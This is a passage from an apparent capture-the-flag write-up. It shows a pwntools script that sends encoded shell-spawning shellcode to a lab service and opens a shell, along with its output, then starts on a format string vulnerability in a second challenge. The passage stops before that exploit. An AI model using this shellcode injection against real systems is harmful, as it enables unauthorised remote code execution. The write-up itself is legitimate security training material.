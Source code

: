 ```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")

r = remote("10.10.62.203", 5002)

# Generate shellcode to spawn a shell
shellcode = asm(shellcraft.sh())

# Encode the shellcode to avoid 0x0f and 0xcd
encoded_shellcode = encode(shellcode, avoid=b"\x0f\xcd")

r.recvuntil(b"Give me your spell, and I will execute it: \n")
r.sendline(encoded_shellcode)
r.interactive("$ ")
```
{: file="solve.py" }

As we can see, our shellcode executes successfully, allowing us to spawn a shell and read the flag.

```console
$ python3 solve.py

Executing Spell...

$ id
uid=1000 gid=1000 groups=1000
$ wc -c flag.txt
44 flag.txt
```

## Not Specified 2

### Examining the Binary

Moving on to `Not Specified 2` and examining the `main` function in **Ghidra**, we can see that after printing the banner, the program prompts the user for input and reads **512 bytes** from the input into the `username` buffer. Following this, it prints a `Thanks` message and calls the `printf` function directly with our input, introducing a **format string vulnerability**.

![Notspecified2 One](notspecified2_one.webp){: width="500" height="400" }

### Leaking LIBC Address

> I won't go into much detail on how to exploit the format string vulnerability for arbitrary read and write, both manually and using `pwntools`, as I have already covered it in the [**Not Specified**](/posts/tryhackme-trypwnme_one/#not-specified) challenge. I recommend checking that out if you are not familiar with the technique.  
{: .prompt-tip }
